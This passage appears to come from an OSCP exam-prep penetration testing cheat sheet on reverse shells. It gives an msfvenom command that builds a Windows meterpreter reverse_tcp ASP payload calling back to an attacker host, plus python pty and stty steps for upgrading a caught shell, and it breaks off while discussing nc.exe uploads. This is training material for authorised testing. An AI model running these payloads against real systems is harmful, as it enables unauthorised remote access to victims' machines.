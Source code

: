 A non-staged payload is sent in one hit, which is why it can be caught by a netcat listener. A staged payload is sent in small pieces, which is why Metasploit needs to be used.

To create a staged payload and catch the shell using Metasploit's `/exploit/multi/handler`:

Copy

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[attack machine] LPORT=445 -f asp > shell.asp
```

Apparently `/exploit/multi/handler` is allowed on the OSCP exam, but this isn't much of an advantage if you can't use Meterpreter or Metasploit's local exploits. But if you don't have a lot of space for the payload, staging it is an option.

### Upgrading shell <a href="#upgrading-shell" id="upgrading-shell"></a>

You will use this line pretty often to fix your shells:

Copy

```
python -c 'import pty; pty.spawn("/bin/bash");'
```

To improve the shell further, use `Ctrl + Z` to background the reverse shell, then in your local machine run:

Copy

```
stty raw -echo
fg
```

Then type `reset` and hit `Enter`for a fully interactive reverse shell.

If the shell dimensions are wrong, background the reverse shell again with `Ctrl + Z`, go to your local machine and run:

Copy

```
stty size
```

This should return two numbers, which are the number of rows and columns in your terminal. Assuming these numbers are `48 120`, return to your victim machine’s shell and run:

Copy

```
stty -rows 48 -columns 120
```

### Windows <a href="#windows" id="windows"></a>

Windows is a little weird. If you encounter an IIS server, you can use msfvenom to create an `.asp` or `.aspx` payload, as described above. You can also attempt to upload nc.exe (remember to set `binary` mode if you use ftp), then run:
